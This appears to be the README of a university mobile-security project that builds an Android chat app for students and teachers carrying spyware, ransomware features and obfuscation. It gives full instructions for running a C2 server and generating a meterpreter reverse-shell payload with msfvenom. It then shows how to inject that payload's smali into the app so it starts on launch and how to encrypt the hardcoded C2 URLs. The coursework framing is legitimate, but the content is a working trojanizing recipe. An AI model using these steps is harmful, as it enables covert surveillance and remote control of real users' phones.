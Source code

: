 # ICT 2215 Mobile Security

## Tools

- Android Emulator / Genymotion
- ADB
- Kotlin Compiler
- JDK
- Python
- Metasploit

## Goals

1. Create a chat application for students and teachers
2. Add Spyware capabilities
3. Add Ransomware additional features
4. Perform obfuscation and detection of RE Tools

## Project Setup

### Android Target

Android Version 11 (Not tested on 12 yet)

### Start C2 Server

```bash
pip install flask
pip install werkzeug
python3 app.py
```

Make sure to copy the local server values and **edit the source code MainActivity.kt**

### Compiling the Code

Make sure to have a valid keystore key (change value in <> and remove the arrows afterwards)
`keytool -genkey -v -keystore my-<release-key.keystore> -alias <alias_name> -keyalg RSA -keysize 2048 -validity 10000`

Make sure there is a **clean snapshot of the android emulator** before proceeding

```bash
./gradlew clean
./gradlew build
apksigner sign --ks <my.keystore> app-release-unsigned.apk --ks-key-alias <alias_name>
```

### Embed Metasploit Payload


The compiled APK included in the zip includes a payload that returns a shell to the team's C2 server. To generate your own, please rebuild your own project and decompile the project. At the same time, msfvenom is required to compile a separate payload APK file which is required to be decompiled too.

`msfvenom -p android/meterpreter/reverse_https LHOST=<ngrok_forwarding_address> LPORT=<ngrok_forwarding_port> R > msf_https.apk`

Once both projects are decompiled, please copy smali/com/metasploit from the msfvenom payload to smali_classes3/com of the android project. Then, edit the MainActivity.smali under smali_classes3/com/example/ict2215_project/ to include ' invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V' under invoke-super in onCreate() function.

Recompile the entire APK, followed by zipaligning and signing off the APK.

On the C2 Server, Please run the following command for the metasploit to work

```bash
msfconsole -q
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 4000
exploit
```

Similarly, by default, without a msfvenom payload in the application, there is also a C2 connection back to the server which is hardcoded. To replace them, use the included Crypto java files provided by the team to encrypt your URL

`java EncryptStringWithKeyFile.class www.example.com.`

Hardcode the ciphertext into LocationManager.kt and MainActivity.kt
For additional information, the aesKey used by the String Encryption is included as part of the application under assets/

### Running on Emulator

`adb install app/build/outputs/apk/release/app-release-unsigned.apk`
